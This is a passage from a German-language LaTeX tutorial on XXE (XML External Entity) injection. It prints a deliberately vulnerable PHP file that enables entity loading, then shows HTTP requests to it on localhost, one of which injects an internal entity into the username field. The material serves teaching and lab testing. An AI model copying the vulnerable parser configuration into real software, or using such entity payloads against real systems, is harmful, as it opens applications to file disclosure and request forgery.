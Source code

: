 Es wird den folgenden \texttt{PHP}-Code als \texttt{xxe.php} im Webserver-Stammordner gespeichert:

\newpage

\begin{LaTeXCode}[caption={XXE PHP-Datei},captionpos=b][numbers=none]
<?php
libxml_disable_entity_loader (false);
\$xmlfile = file_get_contents('php://input');
\$dom = new DOMDocument();
\$dom->loadXML(\$xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
\$o = simplexml_import_dom(\$dom);
\$user = \$o->username;
\$pass = \$o->password;
echo "username : \$user";\\
\end{LaTeXCode}

Eine \texttt{POST}-Anforderung an die \texttt{xxe.php}-Datei mit \texttt{XML}-Daten gesendet, die im folgenden Screenshot gezeigt werden:

\begin{LaTeXCode}[caption={POST Anfrage zur PHP-Datei},captionpos=b][numbers=none]
POST /vulnapps/xxe.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0
Accept: text/html, application/xhtml+xml, application/xml
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: text/xml
Content-Length: 98

	<root>
		<username>sahil</username>
		<password>supersecurepassword</password>
	</root>\\
\end{LaTeXCode}

Hier soll beachtet werden, dass die Anwendung in der \texttt{HTTP}-Antwort einen Benutzernamen anzeigt, der bestätigt, dass die \texttt{XML}-Daten geparst werden.

\newpage

\begin{LaTeXCode}[caption={Geparste XML-Daten},captionpos=b][numbers=none]
HTTP/1.1 200 OK
Date: Tue, 15 May 2018 17:40:35 GMT
Server: Apache/2.4.27 (Win64) PHP/5.6.31
X-Powered-By: PHP/5.6.31
Content-Length: 16
Connection: close
Content-Type: text/xml; charset-UTF-8	

username: sahil\\
\end{LaTeXCode}

Nun wird den XML-Daten eine interne Entität hinzugefügt und im \texttt{username}-Element mit \texttt{\&u} verweist und die Anfrage erneut gesendet.\\

\begin{LaTeXCode}[caption={Manipulierte Anfrage},captionpos=b][numbers=none]
POST /vulnapps/xxe.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0
Accept: text/html, application/xhtml+xml, application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: text/xml
Content-Length: 98

<xml version="1.0"?>
<!DOCTYPE foo[<!ENTITY u 'username from internal entity'>]>	
	<root>
		<username>\&u;</username>
		<password>supersecurepassword</password>
	</root>\\
\end{LaTeXCode}


